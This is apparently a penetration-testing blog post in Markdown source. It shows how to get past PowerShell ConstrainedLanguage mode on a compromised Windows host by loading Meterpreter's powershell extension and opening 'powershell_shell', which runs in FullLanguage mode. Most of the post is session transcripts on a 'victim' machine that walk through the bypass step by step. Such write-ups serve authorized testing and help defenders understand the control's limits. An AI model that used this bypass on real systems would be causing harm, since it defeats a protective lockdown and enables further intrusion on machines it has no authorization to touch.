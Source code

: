 ```yaml
---
title: "Powershell Constrained Mode Bypass With Meterpreter"
date: 2021-05-29T20:52:32-04:00
year: "2021"
month: "2021/05"
toc: false
comments: true
images:
tags:
draft: false
---
```


The powershell extension for meterpreter likely isn't a well known feature of
the meterpreter shell. Most pentesters are likely to just run powershell from
the command shell that meterpreter launches with the `shell` command instead
of loading the extension. But this can be problematic for environments that
lock down Powershell.

<!--more-->

As can be seen below, we have landed a meterpreter instance and dropped into a
command shell. We'd like to run some tools in Powershell, but after checking
the LanguageMode, we can see that we're in ConstrainedLanguage mode. Since
this blocks the tools we want to run, we exit the shell.

```text
meterpreter > shell
Procdess 39630 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19042.985]
(c) Microsoft Corporation. All rights reserved.

C:\Users\victim> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\victim> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
PS C:\Users\victim> exit
exit

c:\Users\victim>exit
exit
```

The powershell extension in meterpreter doesn't provide a shell that is as
clean as the command shell built in to meterpreter and I've had issues trying
to exit it. But it loads an unmanaged Windows PowerShell Runspace which will
not be subject to the LanguageMode from the powershell executable.

Below we load the powershell extension, then drop into a shell using the new
`powershell_shell` command available to us. As can be seen, checking the 
LanguageMode now shows that we are in FullLanguage mode and can now load tools
that require this mode for operation.

```text
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage
PS > 
```